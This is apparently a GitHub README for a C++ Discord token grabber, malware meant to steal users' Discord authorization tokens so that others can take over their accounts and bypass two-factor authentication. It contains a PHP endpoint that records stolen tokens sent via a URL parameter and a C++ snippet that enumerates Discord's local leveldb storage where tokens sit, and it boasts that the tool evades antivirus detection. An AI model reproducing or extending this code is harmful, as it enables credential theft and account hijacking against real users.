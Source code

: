 # Discord Token Grabber
A Discord token grabber written in C++.

This is a "token" or authorization key finder for the platform "Discord".

You can use "tokens" to login to other people's accounts with the authorization key bypassing 2fa.

# Web
The web code is very basic and can be accessed by anyone so I would recommend changing it.
```php
<?php

$file = fopen("tokens.txt", "w");
if(isset($_GET["t"])){
	fwrite($file, $_GET["t"]);
}

?>
```

# Client
This code is not very well written as I'm using C++/14 and filesystem is still experimental.
As you can see here it's a hardcoded solution but it works fine for this purpose.
```cpp
auto files = split(exec("cd %appdata%/discord/Local Storage/leveldb && dir /n /b *"), "\n");
```

# Detection
Since it's fresh and not copied it is currently undetected

![Detection](https://antiscan.me/images/result/huIT9opQ9Off.png)

